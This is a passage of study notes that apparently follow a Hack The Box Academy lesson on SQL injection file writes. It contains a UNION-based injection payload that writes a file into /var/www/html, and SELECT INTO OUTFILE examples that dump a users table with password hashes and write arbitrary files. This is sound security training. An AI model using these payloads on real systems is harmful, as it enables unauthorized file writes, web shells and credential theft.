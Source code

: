     ```
    cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
    ```
    
    [![](https://academy.hackthebox.com/storage/modules/33/write_proof.png)](https://academy.hackthebox.com/storage/modules/33/write_proof.png)
    
    We don’t see any errors on the page, which indicates that the query succeeded. Checking for the file `proof.txt` in the webroot, we see that it indeed exists:
    
    [![](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)
    
    Note: We see the string we dumped along with '1', '3'  
    before it, and '4' after it. This is because the entire 'UNION' query  
    result was written to the file. To make the output cleaner, we can use  
    "" instead of numbers.
    
    ---
    
    ## SELECT INTO OUTFILE :
    
    - The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files.
    - This is usually used for exporting data from tables.
    
    To use it, we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified. The below example saves the output of the `users` table into the `/tmp/credentials` file:
    
    secure_file_priv
    
    ```
    SELECT * from users INTO OUTFILE '/tmp/credentials';
    ```
    
    If we go to the back-end server and `cat` the file, we see that table's content:
    
    secure_file_priv
    
    ```
    KareemAlsadeq@htb[/htb]$ cat /tmp/credentials 1       admin   392037dbba51f692776d6cefb6dd546d
    2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
    ```
    
    It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.
    
    Code: sql
    
    ```
    SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
    ```
    
    When we `cat` the file, we see that text:
    
    secure_file_priv
    
    ```
    KareemAlsadeq@htb[/htb]$ cat /tmp/test.txt this is a test
    ```
    